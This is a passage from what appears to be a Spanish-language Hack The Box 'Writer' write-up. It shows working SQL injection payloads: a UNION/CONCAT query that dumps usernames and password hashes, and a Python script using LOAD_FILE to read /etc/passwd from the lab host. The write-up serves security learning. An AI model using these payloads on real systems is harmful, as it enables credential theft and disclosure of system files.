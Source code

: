 > [plaYsQLi.py - show_data()](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/writer/plaYsQLi.py#L124)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_sqliPY_data_userYpass.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Si quisiéramos evitar listar de a un resultado podemos jugar con la instrucción [CONCAT](https://www.w3schools.com/mysql/func_mysql_concat.asp) de **MySQL**, por ejemplo para ver `username` y `password` al tiempo, podríamos hacer algo así:

```py
...
for row in range(101):·
    payload = f"admin' UNION ALL SELECT 1,(SELECT CONCAT(username,'-',password) FROM {db}.{table} LIMIT {row},1),3,4,5,6;#"
...
```

Y en su ejecución veríamos algo tal que así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_sqliPY_data_concat.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Pues peeeeerfecto, ya hemos dumpeado cosas interesantes, lamentablemente no logramos crackear esa contraseña (el hash) y tampoco ver algo llamativo en las demás tablas, así que tamos F (:
Al menos aprendimos a extraer tooooooooooda la locura de una base de datos y salió un script bastante guapetón :)

...

## Función LOAD_FILE: Leemos archivos del sistema [📌](#web-sqli-loadfile) {#web-sqli-loadfile}

Después de bastante perdición, enumerando cositas y perdiendo otras. Caí en este apartado de un recurso que había compartido antes:

* [Reading and Writing Files](https://sqlwiki.netspi.com/attackQueries/readingAndWritingFiles/#mysql).

Nos indica que mediante `MySQL` podemos leer archivos **del sistema** usando la función [LOAD_FILE(\<archivo\>)](https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php) (que no la había usado y tampoco escuchado, así que a explorarla):

* [Acá también referencian como usarla para obtener información](https://infosecwriteups.com/sql-injection-with-load-file-and-into-outfile-c62f7d92c4e2).

Por ejemplo si queremos ver el archivo `/etc/passwd` del sistema, haríamos esto:

```py
#!/usr/bin/python3

import requests

URL = "http://10.10.11.101/administrative"

payload = f"admin' UNION ALL SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6;#"
r = requests.post(URL, data={"uname":payload,"password":payload})

if "Redirecting you to the dashboard" in r.text:
    print(r.text)
```
